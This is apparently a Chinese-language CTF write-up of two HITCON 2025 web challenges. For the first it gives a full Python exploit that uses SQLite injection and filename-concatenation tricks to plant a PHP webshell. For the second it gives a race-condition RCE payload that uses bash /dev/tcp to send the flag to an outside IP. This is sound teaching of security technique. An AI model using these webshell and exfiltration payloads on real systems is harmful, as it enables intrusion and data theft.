

+++
title= "HITCON2025"
slug= "hitcon2025"
description= ""
date= "2025-08-25T14:38:50+08:00"
lastmod= "2025-08-25T14:38:50+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= ["php","sqlite","RaceCondition"]

+++

## Pholyglot!（31solves）

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox) or die("err?");
 
    $msg = @$_GET['msg'];
    if (isset($msg) && strlen($msg) <= 30) {
        usleep(random_int(133, 3337));

        $db = new SQLite3(".db");
        $db->exec(sprintf("
            CREATE TABLE msg (content TEXT);
            INSERT INTO msg VALUES('%s');
        ", $msg));
        $db->close();

        unlink(".db");
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    } else {
        highlight_file(__FILE__);
    }
```

目录是根据远程IP来生成的，同时限制30个字符写入，很明显的sql注入，可以插入表创建内容，现在就是写入webshell即可。写入的手法，我在前面做CTFSHOW常用姿势时有所了解，可以利用拼接sh参数写入，利用在当前目录创建的文件名拼接成一条完整的命令。 https://baozongwi.xyz/p/ctfshow-common-techniques/#web821

还有就是IP的获取，外网访问的话就是公网IP，本地访问就是内网IP。

```bash
echo > 'ls' && echo > 'm;A=echo' && echo > 'n;B=x.php' && echo > 'o;$A [0]\`>>$B' && echo > 'p;$A \;>>$B'
root@dkhkOgWXgpxwIv3RMfv:~/test# ls
 ls          'o;$A [0]\`>>$B'
'm;A=echo'   'p;$A \;>>$B'
'n;B=x.php'


echo '<?=`*>c`;' > z.php && * > c && echo > bash
root@dkhkOgWXgpxwIv3RMfv:~/test# ls
 bash  'm;A=echo'        'p;$A \;>>$B'
 c     'n;B=x.php'        z.php
 ls    'o;$A [0]\`>>$B'


echo '<?=`*>a`;' > y.php && echo '<?=`$_GET' > x.php
root@dkhkOgWXgpxwIv3RMfv:~/test# ls
 bash       'n;B=x.php'        y.php
 c          'o;$A [0]\`>>$B'   z.php
 ls         'p;$A \;>>$B'
'm;A=echo'   x.php
root@dkhkOgWXgpxwIv3RMfv:~/test# cat x.php
<?=`$_GET
```

到了这里基本就可以了，由于c里面还有命令，bash又在第一位，所以执行`y.php`就可以把c里面的shell给执行了，从而写入`[0]\;`到`x.php`

```bash
root@dkhkOgWXgpxwIv3RMfv:~/test# * > a
c: line 1: m: command not found
c: line 2: n: command not found
c: line 3: o: command not found
c: line 4: p: command not found
c: line 5: z.php: command not found
root@dkhkOgWXgpxwIv3RMfv:~/test# cat x.php
<?=`$_GET
[0]`
;
root@dkhkOgWXgpxwIv3RMfv:~/test# 
```

成功getshell之后根目录获得flag还有一个计算阻拦，可以一直刷，刷到最后计算结果为0即可

```python
import requests, hashlib

# URL, IP = "http://127.0.0.1:8080", "172.18.0.1"
URL, IP = "http://156.239.238.207:8080/", "156.239.238.207"
hash = hashlib.md5(f"orange{IP}".encode()).hexdigest()

print(hash)

requests.get(f"{URL}/?reset")

def write(content, filename):
    requests.get(f"{URL}/?msg={content}');VACUUM INTO('{filename}")

def exec(filename, param=''):
    return requests.get(f"{URL}/sandbox/{hash}/{filename}{param}").text

# <?=`$_GET[0]`;

write('', 'ls')
write('', 'm;A=echo')
write('', 'n;B=x.php')
write('', 'o;$A [0]\`>>$B')
write('', 'p;$A \;>>$B')
"""
$A=echo
$B=x.php


echo  > 'ls'
echo  > 'm;A=echo'
echo  > 'n;B=x.php'
echo  > 'o;$A [0]\`>>$B'
echo  > 'p;$A \;>>$B'

"""
write('<?=`*>c`;', 'z.php')
exec("z.php")

write('', 'bash')
"""
echo '<?=`*>c`;' > z.php
* > c
echo  > bash
"""
write('<?=`*>a`;', 'y.php')
write('<?=`$_GET', 'x.php')
"""
echo '<?=`*>a`;' > y.php
echo '<?=`$_GET' > x.php

cat x.php
<?=`$_GET
"""
exec("y.php")
"""
* > a
cat x.php
<?=`$_GET
[0]`
;
"""

while True:
    res = exec("x.php", "?0=echo 0|/read_flag")
    print(res[-20:-1], end='\r')
    if "{" in res:
        print(res)
        break
```

## No Man's Echo（53solves）

```php
<?php
	$probe = (int)@$_GET['probe'];
	$range = range($probe, $probe + 42);
	shuffle($range);

	foreach ($range as $k => $port) {
		$target = sprintf("tcp://%s:%d", $_SERVER['SERVER_ADDR'], $port);
		$fp = @stream_socket_client($target, $errno, $errstr, 1);
	    if (!$fp) continue;

	    stream_set_timeout($fp, 1);
	    fwrite($fp, file_get_contents("php://input"));
	    $data = fgets($fp);
	    if (strlen($data) > 0) {
	    	$data = json_decode($data);
	    	if (isset($data->signal) && $data->signal == 'Arrival')
	    		eval($data->logogram);
	    	
	    	fclose($fp);
	    	exit(-1);
	    }
	} 
	highlight_file(__FILE__);
```

利用`probe`把43个端口打乱，再接着逐个链接，成功之后传参即可RCE。

也就是说自己的TCP链接自己的，Race Condition即可

然而，端口的确定成了一个问题，我看到有这样的文章  https://blog.chummydns.com/blogs/analysis_linux_host_by_tcp_timestamp/  看着比实际其实复杂太多了**Chara**师傅给我讲解了一下问题

> 多个php运行的时候 可能一个php的tcp打开了44444发送了json，另一个php的tcp也刚好打开了44444发送了json

所以直接简单粗暴的就可以解决这个问题

```http
GET /?probe=§44444§ HTTP/1.1
Host: 156.239.238.207:8080
Connection: keep-aliave

{"signal":"Arrival","logogram":"system(\"bash -c 'cat /flag >& /dev/tcp/156.238.233.93/4444 0>&1'\");"}
```



```bash
root@dkhkKySag1YyfK:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 156.239.238.207 48260
hitcon{123}
root@dkhkKySag1YyfK:~# 
```

当然了，既然是那个原理，所以我们直接一直打一个端口也能成功

```bash
GET /?probe=44444 HTTP/1.1
Host: 156.239.238.207:8080
Connection: keep-aliave

{"signal":"Arrival","logogram":"system(\"bash -c 'cat /flag >& /dev/tcp/156.238.233.93/4444 0>&1'\");"}
```

然后打null payloads就可以
